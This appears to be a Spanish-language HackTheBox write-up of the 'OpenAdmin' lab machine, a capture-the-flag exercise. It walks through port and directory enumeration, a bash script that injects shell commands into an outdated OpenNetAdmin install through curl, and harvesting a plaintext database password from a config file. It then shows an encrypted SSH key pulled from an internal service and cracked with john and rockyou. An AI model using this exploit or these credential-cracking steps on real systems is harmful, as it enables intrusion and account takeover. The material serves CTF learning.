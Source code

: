 ```yaml
---
layout: post
title: "OpenAdmin"
subtitle: 'HackTheBox - Easy Machine - Linux'
date: 2020-03-13 12:00:00
author: "TheusZero"
header-img: "images/post/OpenAdmin/OpenAdmin.png"
catalog: true
comments: true
tags:
  - Linux
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


# OpenAdmin

## Enumeracion

#### NMAP

```vim
┌─[zero@parrot]─[~/HTB/Machines/OpenAdmin]
└──╼ $nmap -sC -sV 10.10.10.171 -o nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-13 19:32 EDT
Nmap scan report for 10.10.10.171
Host is up (0.35s latency).
Not shown: 997 closed ports
PORT    STATE    SERVICE        VERSION
22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
777/tcp filtered multiling-http
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.88 seconds
```

#### HTML  

parece ser una pagina de apache comun, asi que mandaremos un burpsuite y un gobuster a ver que podemos encontrar lo sgte:

![](/TheusZero/images/post/OpenAdmin/OpenAdmin1.png)

> gobuster dir -u "http://10.10.10.171/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dgobuster.txt
>> /music (Status: 301)
>
>> /artwork (Status: 301)
>
>> /sierra (Status: 301)

al entrar a la primera, nos encontramos con uan pag bastante particular y bonita, probe altiro en la parte del login y me mando a una pag llamada ona, donde se puede ver que esta en uan version desactualizada asi que supongo que podria haber algun exploit o algo por internet.

![](/TheusZero/images/post/OpenAdmin/OpenAdmin2.png)

![](/TheusZero/images/post/OpenAdmin/OpenAdmin3.png)

![](/TheusZero/images/post/OpenAdmin/OpenAdmin4.png)

claramente, hay un exploit para esa version, sin embargo no la saque de esa pag, probe con otra, dejo aqui el exploit

#### www-data

> Name.sh

```vim
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

> sh rce.sh http://10.10.10.171/ona/

listo, entre con una shell www-data

## Explotacion

lo primero que hice fue upgradear la shell, quedo la caga asi que no funciono.
con la shell no se podia hacer muxo, asi que luego de rebuscar un buen rato y preguntar a compares en HTB y el foro, logre encontrar un archivo bastante particular, obteniendo lo siguiente:

```vim
cat /opt/ona/www/local/config/database_settings.inc.php  

<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

> n1nj4W4rri0R!

se nota altiro que no necesita desifrarce, sin embargo no se donde habia que introducir esa passwoord, asi que enumere los usuarios obteniendo 2 principales:

> joanna

> jimmy

asi que me dispuse a probar con el ssh, para ver si obtenia suerte.

probe primero con joanna, pero nada (creo que no le gustaban los ninjas...)
pero con jimmy funciono de pana, asi que con el podemos proseguir con el escalado de privilegios.

## Privilage Escalation

Jimmy vale pico, no tiene sudo, no tiene acceso a nada wn asi que le mande unas cuantas enumeraciones y encontre lo siguiente:

```vim
jimmy@openadmin:/tmp/.no$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -   
```

probe con curl para ver que podia obtener, en cada uno y el puerto 52846 fue una sorpresa bro

```vim
jimmy@openadmin:/tmp/.no$ curl http://localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
ya hermano, se prendio esta mierda

use john y rockyou.txt para crackear esta shit, resulto en una password de la sgte manera:

```vim
┌─[zero@parrot]─[~/HTB/Machines/OpenAdmin]
└──╼ $/usr/share/john/ssh2john.py id_rsa.hash > hash_id_rsa
┌─[zero@parrot]─[~/HTB/Machines/OpenAdmin]
└──╼ $john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa.hash)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:04 DONE (2020-03-13 21:38) 0.2380g/s 3414Kp/s 3414Kc/s 3414KC/sa6_123..*7¡Vamos!
Session completed
```
> bloodninjas

asi que probremos con joanna ahoora que tal nos va

